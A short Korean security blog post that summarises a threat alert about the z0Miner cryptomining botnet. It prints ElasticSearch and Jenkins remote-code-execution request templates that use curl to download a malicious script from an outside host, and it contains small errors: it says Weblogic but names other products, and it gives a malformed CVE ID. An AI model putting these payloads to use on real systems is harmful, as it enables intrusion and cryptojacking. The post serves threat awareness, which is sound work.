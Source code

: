 ```yaml
---

title: "[하루한줄] z0Miner: Mining Botnet Spreading quickly"
author: Fabu1ous
tags: [Fabu1ous, botnet, bitcoin, monroe, mining]
categories: [1day1line]
date: 2021-03-13 14:00:00
cc: true
index_img: /img/1day1line.png
---
```




## **URL**

[Threat Alert: z0Miner Is Spreading quickly by Exploiting ElasticSearch and Jenkins Vulnerabilities](https://blog.netlab.360.com/threat-alert-z0miner-is-spreading-quickly-by-exploiting-elasticsearch-and-jenkins-vulnerabilities/)



## **Explain**

최근 비트코인의 상승과 함께 다양한 채굴 봇넷 공격이 늘어났습니다. 대부분 감염 방식을 바꿨을 뿐 오래된 봇넷이며 그중 z0Miner도 포함되어 있습니다. z0Miner는 2가지 Weblogic RCE 취약점을 사용해 전파됩니다. z0Miner는 아래  두 취약점을 사용해 타겟 시스템에 `hxxp://27.1.1.34:8080/docs/conf.txt`를 설치하고 실행합니다.

1. ElasticSearch RCE (CVE-2021-2015-1427)

   ```
   POST /{VULN_URI} HTTP/1.1
   Host: {target}:{port}
   
   {...exec(\"curl -fsSL http://27.1.1.34:8080/docs/conf.txt -o /tmp/baby\")...}
   ```

   

2. Jenkins script console RCE

   ```
   POST /{VULN_URI} HTTP/1.1
   Host: {target}:{port}
   
   curl+-fsSL+http%3A%2F%2F27.1.1.34:8080%2Fdocs%2Fconf.txt+-o+%2Ftmp%2Fsolr%22.execute%28%29.text&json=%7B%22script%22%3A+%22println+%5C%22curl+-fsSL+http%3A%2F%2F27.1.1.34:8080%2Fdocs%2Fconf.txt+-o+%2Ftmp%2Fsolr%5C%22.execute%28%29.text%22%2C+%22%22%3A+%22%22%7D&Submit=Run
   ```

   

타겟 시스템에 설치된 `hxxp://27.1.1.34:8080/docs/conf.txt`는 다음과 같은 동작을 합니다.

1. 타겟 시스템에 다른 채굴 봇넷이 존재하면 그 봇넷을 종료
2. 추가 악성 스크립트를 설치
3. 채굴 프로그램 설치 및 실행